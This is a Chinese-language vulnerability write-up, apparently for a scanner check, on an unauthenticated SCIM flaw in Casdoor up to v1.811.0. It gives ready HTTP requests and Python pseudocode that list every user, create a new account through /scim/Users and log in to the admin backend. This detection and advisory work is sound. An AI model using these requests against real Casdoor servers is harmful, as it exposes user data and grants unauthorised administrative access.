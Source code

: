 # Casdoor <=v1.811.0 未授权 SCIM 操作漏洞（casdoor-unauth-operations）

## 漏洞简介
Casdoor ≤1.811.0 存在未授权 SCIM（System for Cross-domain Identity Management）操作漏洞，攻击者可在无需认证的情况下访问用户管理接口，进行用户信息读取、创建等敏感操作。

## 影响范围
- 受影响产品：Casdoor ≤1.811.0

## 漏洞原理
SCIM 用户管理接口未做有效认证校验，攻击者可直接访问 `/scim/Users` 进行用户信息读取、创建等操作，甚至可注册新用户并登录后台。

## 利用方式与攻击流程
1. 攻击者直接 GET `/scim/Users`，可获取全部用户信息。
2. 攻击者 POST `/scim/Users`，可创建新用户。
3. 利用新用户凭证登录后台。

## 探测原理与流程
### 请求包示例
1. 获取用户信息：
```http
GET /scim/Users HTTP/1.1
Host: target.com
```
2. 创建新用户：
```http
POST /scim/Users HTTP/1.1
Host: target.com
Content-Type: application/scim+json-H

{"active":true,"displayName":"Admin","emails":[{"value":"test@oast.fun"}],"password":"testpass","nickName":"testuser","schemas":["urn:ietf:params:scim:schemas:core:2.0:User","urn:ietf:params:scim:schemas:extension:enterprise:2.0:User"],"urn:ietf:params:scim:schemas:extension:enterprise:2.0:User":{"organization":"built-in"},"userName":"testuser","userType":"normal-user"}
```
3. 登录后台：
```http
POST /api/login HTTP/1.1
Host: target.com
Content-Type: text/plain;charset=UTF-8

{"application":"app-built-in","organization":"built-in","username":"testuser","autoSignin":true,"password":"testpass","signinMethod":"Password","type":"login"}
```

### 响应与判定逻辑
- GET `/scim/Users` 响应体包含 `urn:ietf:params:scim:schemas:core:2.0:User`、`Resources`、`emails`，且响应头含 `casdoor_session_id`，状态码为 200。
- POST `/scim/Users` 响应体包含新用户名，状态码为 201。
- 登录接口响应体包含 `"status": "ok"`，状态码为 200。

### 伪代码
```python
# 步骤1：获取用户信息
resp1 = requests.get('http://target.com/scim/Users')
# 步骤2：创建新用户
user_data = {...}
resp2 = requests.post('http://target.com/scim/Users', json=user_data)
# 步骤3：登录后台
login_data = {...}
resp3 = requests.post('http://target.com/api/login', json=login_data)
if resp1.status_code == 200 and all(x in resp1.text for x in ["urn:ietf:params:scim:schemas:core:2.0:User","Resources","emails"]) and 'casdoor_session_id' in resp1.headers.get('Set-Cookie','') and resp2.status_code == 201 and resp3.status_code == 200 and '"status": "ok"' in resp3.text:
    print('存在未授权 SCIM 操作漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[GET /scim/Users 获取用户信息]
    B --> C[POST /scim/Users 创建新用户]
    C --> D[POST /api/login 登录后台]
    D --> E{是否全部成功?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在未授权 SCIM 操作漏洞]
```

## 参考链接
- [Casdoor 官方仓库](https://github.com/casdoor/casdoor) 